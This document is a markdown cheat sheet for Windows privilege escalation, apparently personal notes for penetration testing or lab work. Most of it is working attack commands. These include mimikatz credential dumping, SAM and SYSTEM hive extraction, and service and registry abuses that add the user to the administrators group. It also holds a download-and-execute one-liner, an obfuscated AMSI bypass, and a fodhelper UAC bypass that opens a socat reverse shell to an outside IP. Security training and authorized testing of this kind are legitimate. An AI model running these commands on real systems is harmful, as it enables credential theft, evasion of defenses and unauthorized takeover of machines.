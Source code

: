 #### checklist
- [winpeas](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)
- [Seatbelt](https://github.com/GhostPack/Seatbelt)
- [jaws](https://github.com/411Hall/JAWS)
- bloodhound - AD env
- PowerView
- PowerUp
- mimikatz
- [GhostPacks](https://github.com/GhostPack)
- [GhostPacks-compiled](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries)
- [Wadcom](https://wadcoms.github.io/) Cheat sheet for windows offensive tools
- sherlock.ps1
- [windows exploit suggestor](https://github.com/7Ragnarok7/Windows-Exploit-Suggester-2)
- 
```
- use enumeration tools
- remember to use **netcat** for reverse shells!
- check users in local machine and domain
- check groups in local machine and domain
- check current user groups
- check current user permissions --- what?
- check config files 
- check log files
- check Unattended files
- check powershell history
- check if AV enabled
- Unquoted Service Paths
- Insecure Permissions on Service Executable
- Insecure Service Permissions
- Unpatched Software
- Weak Registry permissions
- writable StartUp Folders
- Windows AutoLogon credentails
- Unquoted Service Paths
- Insecure Permissions on Service Executable
- Insecure Service Permissions
- Unpatched Software
- Weak Registry permissions
- writable StartUp Folders
```

- exploiting privileges [show me your privs, and I will lead you to system](https://hackinparis.com/data/slides/2019/talks/HIP2019-Andrea_Pierini-Whoami_Priv_Show_Me_Your_Privileges_And_I_Will_Lead_You_To_System.pdf)
- kernel exploits: https://github.com/ASR511-OO7/windows-kernel-exploits
- offsec exploits db: https://github.com/offensive-security/exploitdb-bin-sploits
- AD cheatsheet : https://wadcoms.github.io/
- sweet potato rule all [potato exploits](https://jlajara.gitlab.io/Potatoes_Windows_Privesc), [PrintSpoofer](https://github.com/itm4n/PrintSpoofer/releases)
	
- Windows DLLs search order
```
1. The directory from which the application loaded.
2. The system directory.
3. The 16-bit system directory.
4. The Windows directory. 
5. The current directory.
6. The directories that are listed in the PATH environment variable.

No.5 becomes No.2 when safe DLL search mode is disabled
```
- command to-go list
```powershell
Get-LocalUser
Get-LocalGroup
Get-LocalGroupMember adminteam
systeminfo
ipconfig /all
route print
netstat -nao
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
Get-Process
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\users -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue
runas /user:backupadmin cmd
cat C:/xampp/mysql/bin/mysql.ini
Get-History
(Get-PSReadlineOption).HistorySavePath
type C:\Users\dave\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
# windows creds object & winrm from powershell 
$password = ConvertTo-SecureString "password123!" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("daveadmin", $password)
Enter-PSSession -ComputerName CLIENTWK220 -Credential $cred
## show unquoted services 
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
# show scheduleds
Get-ScheduledTask
schtasks /query /fo LIST /v

```

- mimikatz
```powershell
privilege::debug
sekurlsa::logonPasswords full
sekurlsa::wdigest
lsadump::sam
lsadump::secrets
lsadump::cache
sekurlsa::dpapi

```

### Unattended Windows Installations
```
# credentails such as <Password>
C:\Unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml
```
### IIS config path
```
C:\inetpub\wwwroot\web.config
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
```
### powershell & cmd
```powershell
# secrets dump SAM SYSTEM
secretsdump.py -sam sam -system system local
# putty proxy credentails 
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
# copy system/sam files
reg save HKLM\SAM C:\sam
reg save HKLM\SYSTEM C:\system
# read encrypted file 
$ss = Import-CliXml -Path user.txt
$ss.GetNetworkCredential().Password # password is property to read
# find db connections in IIS config file
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString

# winlogon logged users credentials
reg query "HKLM\SOFTWARE\microsoft\windows nt\currentversion\winlogon"
# saved windows credentails| if creds exist can be used with runas
cmdkey /list 

# AutoRuns - check permisisons  | run on user login
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
# read saved powershell history
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt

# run cmd as another user
runas /savecred /user:mike cmd.exe

# scheduled tasks
schtasks /query /tn vulntask /fo list /v

# find unquoted services
wmic service get name,pathname,displayname,startmode | findstr /i auto | findstr /i /v "C:\Windows\\" | findstr /i /v """

# ----exploiting----- 
#AlwaysInstallElevated|check regs files set to 1,if exist create msi shell
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
msiexec /quiet /qn /i payload.msi
# if nt/INTERACTIVE has full perms use exploit to run c code as localSystem
Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f
sc start regsvc
#confirm exploitation
net localgroup administrators
# filepermservice.exe service 
accesschk64.exe -wvu "C:\Program Files\File Permissions Service"
sc start filepermsvc
# abuse startup files at login
icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
# permissions using accesschk64 | SERVICE_CHANGE_CONFIG
accesschk64.exe -wuvc daclsvc
sc config daclsvc binpath= "net localgroup administrators user /add"
sc start daclsvc
# Hot Potato exploit
Import-Module Tater.ps1
Invoke-Tater -Trigger 1 -Command "net localgroup administrators user /add"

```
- powershell
```powershell
# download files
Invoke-WebRequest -URI $URL -OutFile $Path
#
(New-Object System.Net.WebClient).DownloadFile($URL, $Path)
(New-Object System.Net.WebClient).DownloadString($URL)
IEX(New-Object Net.Webclient).DownloadString('http://192.168.45.199/PowerUp.ps1');Invoke-AllChecks

#
Start-BitsTransfer -Source $URL -Destination $Path
# 
certutil.exe -urlcache -split -f $URL $Path
# find file
Get-ChildItem -Path . -Recurse -Include flag
#bypass execution policy
powershell.exe -nop -ep bypass
# start a process as another user
$username = "BART\Administrator"
$password = "3130438f31186fbaf962f407711faddb"
$secstr = New-Object -TypeName System.Security.SecureString
$password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr
Invoke-Command -FilePath "C:\temp\shell.ps1" -Credential $cred -Computer localhost

```


- Windows Privileges:
```
By default, Windows assigns this privilege to members of the local Administrators group as well as the device's LOCAL SERVICE, NETWORK SERVICE, and SERVICE accounts


SeImpersonatePrivilege, SeBackupPrivilege, SeAssignPrimaryToken, SeLoadDriver
SeBackup / SeRestore

```
- tools
```
WinPEAS
PrivescCheck
WES-NG: Windows Exploit Suggester - Next Generation
Metasploit
```

- firewall and AntiVirus
```powershell

#AMSI bypass
[Ref].Assembly.GetType('System.Management.Automation.Ams'+'iUtils').GetField('am'+'siInitFailed','NonPu'+'blic,Static').SetValue($null,$true)

```

- UAC bypass
```powershell
# if GUI avaliable choose cmd
msfconfig.exe

# foodhelper bypass windows AV and spawn shell
set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:10.8.129.32:4445 EXEC:cmd.exe,pipes"
reg add "HKCU\Software\Classes\.thm\Shell\Open\command" /d %CMD% /f
reg add "HKCU\Software\Classes\ms-settings\CurVer" /d ".thm" /f
fodhelper.exe
# tool
https://github.com/hfiref0x/UACME
```